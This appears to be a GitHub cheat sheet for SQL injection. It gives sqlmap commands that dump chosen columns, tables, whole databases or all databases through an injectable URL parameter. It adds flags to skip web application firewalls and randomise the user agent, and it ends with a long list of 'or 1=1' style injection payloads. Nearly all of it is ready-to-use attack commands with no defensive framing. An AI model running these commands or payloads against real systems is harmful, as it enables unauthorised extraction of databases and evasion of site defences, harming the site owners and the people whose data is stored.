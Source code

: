 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```

 SQL Injection Confirmation<h2>
 
 ```
 or 1=1 

‘or 1=1

“or 1=1

or 1=1–

‘or 1=1–

“or 1=1–

or 1=1#

‘or 1=1#

“or

1=1#

or 1=1/*

‘or 1=1/*

“or 1=1/*

or 1=1;%00

‘or 1=1;%00

“or 1=1;%00

‘or’

‘or

‘or’–

‘or–

or a=a

‘or a=a

“or a=a

or a=a–

‘or a=a —

“or a=a–

or ‘a’=’a’

‘or ‘a’=’a’

“or ‘a’=’a’

‘)or(‘a’=’a’

“)”a”=”a”

‘)’a’=’a

‘or”=’
```
